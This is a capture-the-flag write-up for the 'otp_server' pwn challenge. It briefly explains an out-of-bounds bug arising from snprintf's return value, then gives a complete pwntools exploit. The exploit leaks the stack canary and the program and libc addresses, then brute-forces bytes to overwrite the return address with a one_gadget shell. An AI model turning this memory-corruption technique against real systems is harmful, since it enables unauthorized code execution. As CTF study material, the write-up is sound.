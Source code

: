 ## 410 Pwn / otp_server

Array out of bound caused by use of `snprintf`, because the `snprintf` will return length that "would have been written" not length that will be written, and there is no null byte termination. Then we need to brute force the most significant byte of 4-byte random number, which is a bit time-consuming, and requires about `6*256` times brute force to rewrite return address to one gadget.

```python
from pwn import *
from struct import unpack
g_local=1
context(log_level='debug', arch='amd64')
e = ELF("/lib/x86_64-linux-gnu/libc-2.27.so")

if g_local:
	sh = process("./otp_server")
	gdb.attach(sh)
else:
	sh = remote("challenges.fbctf.com", 1338)

sh.recvuntil(">>> ")

def set_key(key):
	sh.sendline('1')
	sh.recvuntil("Enter key:\n")
	sh.send(key)

def encrypt(msg):
	sh.sendline('2')
	sh.recvuntil("message to encrypt:\n")
	sh.send(msg)
	end_msg = "\n----- END ROP ENCRYPTED MESSAGE -----\n"
	sh.recvuntil("----- BEGIN ROP ENCRYPTED MESSAGE -----\n")
	return sh.recvuntil(end_msg)[:-len(end_msg)]

set_key('K' * 0x80)
leak = encrypt('M' * 0x100)

canary = u64(leak[0x108:0x110])
prog_addr = u64(leak[0x110:0x118]) - 0xdd0
libc_addr = u64(leak[0x118:0x120]) - 0x21b97
print hex(canary),hex(prog_addr),hex(libc_addr)

def write_byte(off, val):
	set_key('K' * (off + 1) + '\x00')
	while True:
		ret = encrypt('M')
		k = ord('K') if off != 2 else 0
		if ord(ret[3]) ^ k == val:
			break

one_gadget = p64(libc_addr + 0x10a38c)

for i in range(0x10, 0x16)[::-1]:
	write_byte(i, ord(one_gadget[i-0x10]))
sh.interactive()
```
